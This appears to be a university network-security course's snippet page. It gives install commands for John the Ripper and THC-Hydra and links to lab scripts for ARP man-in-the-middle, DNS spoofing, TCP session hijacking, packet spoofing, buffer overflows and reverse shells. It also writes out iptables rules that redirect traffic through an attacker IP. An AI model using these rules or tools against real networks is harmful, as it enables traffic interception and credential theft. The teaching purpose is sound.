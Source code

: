 ```yaml
---
layout: default
course_number: CS335
title: Code Snippets
---
```


This page contains code snippets regularly used in class.


#### Password
- Built _John The Ripper_ from source:
  - ```git clone https://github.com/magnumripper/JohnTheRipper.git```
  - ```cd ./JohnTheRipper/src```
  - ```sudo apt-get update```
  - ```sudo apt-get install libssl-dev```
  - ```./configure```
  - ``` make -s clean && make -sj4```
  - ``` pip install --user dpkt```

- We can also download the binaries as zip:
  - ```wget https://github.com/magnumripper/JohnTheRipper/archive/bleeding-jumbo.zip --no-check-certificate```
  - ```unzip bleeding-jumbo.zip```
  - ```cd JohnTheRipper-bleeding-jumbo/src```
  - ```./configure```
  - ``` make -s clean && make -sj4```

- We can also download the binaries as tar:
  - ```sudo apt-get install libssl-dev```
  - ```wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz```
  - ```tar -xvf ./john-1.9.0-jumbo-1.tar.xz```
  - ```cd john-1.9.0-jumbo-1/src```
  - ```./configure```
  - ``` make -s clean && make -sj4```

- Install it using the app store (not recommended):
  - ```sudo apt install john```

- Install using [snapd](https://snapcraft.io/) (not recommended):
  - ```sudo snap install john-the-ripper```

- Install THC-Hydra
  - ```wget https://github.com/vanhauser-thc/thc-hydra/archive/refs/tags/v9.3.tar.gz```
  - ```tar -xvf v9.3.tar.gz```
  - ```cd thc-hydra-9.3```
  - ```./configure```
  - ```make```
  - ```sudo make install```
  - [rockyou.txt](pass\rockyou.txt.tar.gz)

- Crack me
  - [joke.docx](pass\joke.docx)
  - [joke.pdf](pass\joke.pdf)
  - [joke.zip](pass\joke.zip)

<!--
#### SQL
- [Insert Employees](sql\insert_script.html)

#### XSS
- [Add a friend](xss\add_friend.html)
- [Update Profile](xss\edit_profile.html)
- Content Security Policy Experiment
  - [http_server.py](csp\http_server.html)
  - [index.html](csp\index.html)

#### CSRF
- [Template](csrf\post.html) for POST attacks
-->

#### ARP
- man in the middle atacks: [mintm.py](arp\mintm.html)
- Add firewall rule on the client
  - ```sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination _attacker_ip_address_```
- Rules on the attacker
  - ```sudo sysctl -w net.ipv4.ip_forward=1```
  - ```sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination _server_ip_address_```
  - ```sudo iptables -t nat -A POSTROUTING -j MASQUERADE```

#### DNS
- [dns_spoof.py](dns\dns_spoof.html)
- Examples of DNS zone files
  - Add to `/etc/bind/`
    - [etc/bind/191.168.0.db](dns\191.168.0.db)
    - [etc/bind/cs335.com.db](dns\cs335.com.db)
  - Append to `/etc/bind/named.conf`
    - [cs335zone](dns\cs335_zone.html)
- Control Network Trafic Speed (attached to the external network)
  - Delay the network traffic by 100ms ```# tc qdisc add dev eth0 root netem delay 100ms```
  - Delete the ```tc``` entry ```# tc qdisc del dev eth0 root netem```
  -	Show all the ```tc``` entries ```# tc qdisc show dev eth0```


#### TCP
- Client: [tcp_client.c](tcp\tcp_client.c)
- Server: [tcp_server.c](tcp\tcp_server.c) & [tcp_server_multi.c](tcp\tcp_server_multi.c)
- Sent RST packet: [rst_packet.py](tcp\rst_packet.html)
- Reset existing connections: [reset_auto.py](tcp\reset_auto.html)
- Hijack Session: [session_hijack.py](tcp\session_hijack.html)

#### Packet Sniffing and Spoofing
- Sniffing
  - UDP server: [udp_server.c](sniff\udp_server.c)
  - Packet Sniffing using raw sockets: [sniff_raw.c](sniff\sniff_raw.c)
  - Packet Sniffing using pcap API: [sniff_pcap.c](sniff\sniff_pcap.c)
  - Packet Sniffing using pcap API (improved): [sniff_ether.c](sniff\sniff_ether.c)
  - Sniff using Scapy: [sniff.py](sniff\sniff.html)
- Spoofing
  - UDP client: [udp_client.c](sniff\udp_client.c)
  - Spoof ICMP using raw sockets: [spoof_icmp.c](sniff\spoof_icmp.c)
  - Spoof UDP using raw sockets: [spoof_udp.c](sniff\spoof_udp.c)
  - Spoof TCP using raw sockets: [spoof_tcp.c](sniff\spoof_tcp.c)
  - Spoof UDP using Scapy: [spoof_udp.py](sniff\spoof_udp.html)
  - Spoof ICMP using Scapy: [spoof_icmp.py](sniff\spoof_icmp.html)
- Sniffing along with Spoofing
  - Create packet using Scapy: [create_udp_packet.py](sniff\create_udp_packet.html)
  - Send created packet using raw sockets: [send_udp_packet.c](sniff\send_udp_packet.c)
  - Sniffing and the Spoofing ICMP using Scapy: [sniff_snoop_icmp.py](sniff\sniff_snoop_icmp.html)
- Helpers
  - TCP/IP Header Structures: [ip.h](sniff\ip.h)
  - Calculating Checksum: [checksum.h](sniff\checksum.c)
  - Send Raw Packets (method only): [spoof.c](sniff\spoof.c)

#### Buffer Overflow
- Memory Layout: [mem_layout.cpp](buffer_overflow\mem_layout.cpp)
- Launching shell: [launch_shell.c](buffer_overflow\launch_shell.c)
- ASCII vs binary: [print_zero.c](buffer_overflow\print_zero.c)
- Print *esp*: [sp.c](buffer_overflow\sp.c)
- ASLR: [aslr.c](buffer_overflow\aslr.c)

<!--
##
## Shell Shock
- Attack on Set-UID: [vul.c](shell_shock\vul.c)
- Vulnerable Bash program: [variables.c](shell_shock\variables.c)
- Attack on CGI program: [test.cgi](shell_shock\test.cgi)
-->

#### Reverse Shell
- File Descriptors: [fd.c](reverse_shell\fd.c)
- Redirection (demo): [red.c](reverse_shell\red.c)
- Redirection (dup): [dup.c](reverse_shell\dup.c)
- Redirection (dup2): [dup2.c](reverse_shell\dup2.c)
- Redirection (tcp out): [tcp_out.c](reverse_shell\tcp_out.c)
- Redirection (tcp in): [tcp_in.c](reverse_shell\tcp_in.c)
